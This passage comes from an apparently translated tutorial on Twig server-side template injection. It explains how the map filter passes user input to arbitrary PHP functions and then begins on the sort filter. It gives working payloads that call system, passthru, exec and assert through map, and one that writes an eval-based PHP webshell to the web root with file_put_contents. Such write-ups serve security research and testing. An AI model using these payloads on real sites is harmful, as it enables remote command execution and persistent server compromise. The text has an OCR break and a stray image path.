 > Let's see how this method is executed in the source code

```php
function twig_array_map($array, $arrow)
{
    $r = [];
    foreach ($array as $k => $v) {
        $r[$k] = $arrow($v, $k); // Execute $arrow directly as a function
    }

    return $r;
}
```

> From the above code, you can see that the `$arrow` passed in is directly executed as a function, that is, `$arrow($v, $k)`, while `$v` and `$k` are `value` and `key` in `$array` respectively
> And `$array` and `$arrow` are both controllable, so you can directly pass a dangerous function name that can pass in two parameters and can execute commands to implement command execution

```php
system ( string $command [, int &$return_var ] ) : string
passthru ( string $command [, int &$return_var ] )
exec ( string $command [, array &$output [, int &$return_var ]] ) : string
shell_exec ( string $cmd ) : string
```

> The above four methods can reach the first three command execution, and exec is no echo execution

```php
{{["calc"]|map("system")}}
{{["calc"]|map("passthru")}}
{{["calc"]|map("exec")}} // No echo
```

> If the above command execution functions are disabled, you can also execute other functions to execute arbitrary code

```php
{{["phpinfo();"]|map("assert")|join(",")}}
{{{"<?php phpinfo();eval($_POST[H3rmesk1t]);":"/var/www/html/shell.php"}|map("file_put_contents")}} // Write Webshell
```

> Since the map's `$arrow` can be used, then continue to look for filters that should also be used with the $arrow parameter

### sort filter
> This sort filter can be used to sort arrays, and can pass an arrow function to sort arrays

```php
{% for user in users|sort %}
    ...
{% endfor %}


{% set fruits = [
    { name: 'Apples', quantity: 5 },
    { name: 'Ora
nges', quantity: 2 },
    { name: 'Grapes', quantity: 4 },
] %}

{% for fruit in fruits|sort((a, b) => a.quantity <=> b.quantity)|column('name') %}
    {{ fruit }}
{% endfor %}

// Output in this order: Oranges, Grapes, Apples
```
